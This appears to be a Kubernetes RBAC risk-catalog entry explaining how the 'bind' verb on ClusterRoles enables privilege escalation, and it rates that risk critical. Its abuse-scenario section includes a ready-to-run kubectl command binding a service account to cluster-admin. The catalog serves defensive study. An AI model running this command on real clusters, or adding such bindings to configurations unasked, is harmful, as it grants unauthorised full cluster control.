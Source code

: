 ```yaml
---
id: 1032
title: "Bind ClusterRoles to identities (bind verb)"
description: "Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                   |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1032                                                                                                                                    |
| Name          | Bind ClusterRoles to identities (bind verb)                                                                                             |
| Risk Category | Elevation of Privilege                                                                                                                  |
| Risk Level    | {{< risk Critical >}}                                                                                                                   |
| Role Type     | ClusterRole                                                                                                                             |
| API Groups    | rbac.authorization.k8s.io                                                                                                               |
| Resources     | clusterroles                                                                                                                            |
| Verbs         | bind                                                                                                                                    |
| Tags          | {{< tag "BindingToPrivilegedRole" >}} {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits using the 'bind' verb on ClusterRoles (or Roles). This allows a user to create a ClusterRoleBinding (or RoleBinding) that grants the permissions of a specific role to another user, group, or service account, potentially leading to privilege escalation if a highly privileged role is bound.

## Abuse Scenarios

1. Create a ClusterRoleBinding to grant 'cluster-admin' to a service account, leveraging the 'bind' permission on the 'cluster-admin' ClusterRole.

```bash {copy=true}
# This command will succeed if the user has 'bind' on the 'cluster-admin' ClusterRole.
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: bind-to-cluster-admin
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -f - <<EOF ... EOF (bind 'default' SA in 'default' namespace to cluster-admin)

```
